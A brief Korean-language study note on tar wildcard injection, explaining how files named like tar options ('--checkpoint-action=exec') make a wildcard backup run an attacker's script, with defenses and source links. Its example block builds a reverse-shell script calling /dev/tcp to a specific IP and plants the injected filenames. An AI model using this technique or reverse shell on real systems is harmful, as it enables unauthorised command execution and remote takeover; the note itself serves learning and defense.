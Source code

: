 # Tar Wildcard Injection
- Wildcard 문자를 사용하면 `tar` 명령은 특정 패턴과 일치하는 모든 파일을 포함하게 되는데, 예를 들어, 공격자가 시스템에 `--checkpoint-action=exec=sh exploit.sh` 와 같은 파일명을 생성하면, tar가 이 패턴과 일치하는 파일을 찾을 때 공격자의 스크립트가 실행되게 할 수 있다는 점을 이용한 취약점임

---
# `--checkpoint-action=exec`, `--checkpoint` option
- `--checkpoint-action=exec` 옵션은 `tar` 아카이브 생성 또는 추출 과정에서 특정 체크포인트마다 특정 쉘 명령을 자동으로 실행하도록 설정하는 기능
- `checkpoint` 옵션은 몇 개의 레코드(record)를 처리할 때마다 체크포인트를 생성할 것인지를 지정
- 이러한 옵션은 일반적으로 로깅, 모니터링 등을 돕기 위해 있는 옵션임

---
# Wildcard
- `*`
- 리눅스에서 해당 디렉토리에 있는 모든 파일을 나타냄

---
# Example
- 예를들어 공격자가 파일업로드를 할 수 있는 벡터를 찾았는데, 업로드한 파일들을 주기적으로 tar를 통해서 백업을 하고, 이렇게 백업을 할때 와일드 카드를 사용해서 백업을 하는 상황이 있을 때 이러한 취약점을 이용할 수 있음
```sh
echo "#! /bin/bash" > shell.sh
echo "bash -c 'bash -i >& /dev/tcp/211.250.216.249/7000 0>&1'" >> shell.sh
echo "" > "--checkpoint-action=exec=./shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```

- 지금은 파일을 실행하는 형태이지만, 어렵다면 파일이 아니라 직접 명령어를 실행해도 괜찮음

---
# Defense
- 와일드카드를 사용을 지양함
- 와일드카드를 사용해야 한다면, `--` 을 명시하여 옵션이 끝났음을 명시하면 됨


---
# Source
- [참고1](!https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
- [참고2](!https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)